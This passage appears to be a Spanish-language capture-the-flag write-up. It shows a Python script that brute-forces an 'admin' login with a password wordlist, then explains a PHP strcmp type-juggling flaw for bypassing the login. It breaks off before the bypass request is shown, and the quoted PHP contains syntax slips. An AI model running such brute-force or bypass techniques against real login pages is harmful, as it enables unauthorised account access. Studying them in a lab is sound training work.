 ```python
 
    s = requests.Session()

    passwords = f.readlines()
      
    for password in passwords:
        

        login_data = {
            'username': 'admin',
            'password': password.rstrip()
        }

        p1.status("Probando con la contraseña %s" %password)
        r = s.post(login_url, data=login_data)
        
        if 'Invalid Password!' not in r.text:
            p1.success("La contraseña correcta es %s" %password)
            sys.exit(0)

if __name__ == '__main__':

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)

    bruteForce()
```

### Burlear el login panel con TypeJuggling {-}

Mas tarde en el video, el Tito nos muestra el codigo fuente de la pagina de login y se ve que en la comparativa del input **Password**, el
desarollador de la pagina utiliza un codigo php 

```php
if(isset($_POST['username'] == $USER){
    if(strcmp($_POST['password'], $PASS ) == 0){
        S_SESSION['username'] = $USER;
        header( 'Location: manage.php' );
    }
}
```

El problema aqui es que usado el comando 
```bash
 strcmp() 
```
 para el password permite al atacante de burlar esto con un cambio de tipo.

Si la request normal es como la siguiente y nos pone 
```bash
 incorrect password 
```
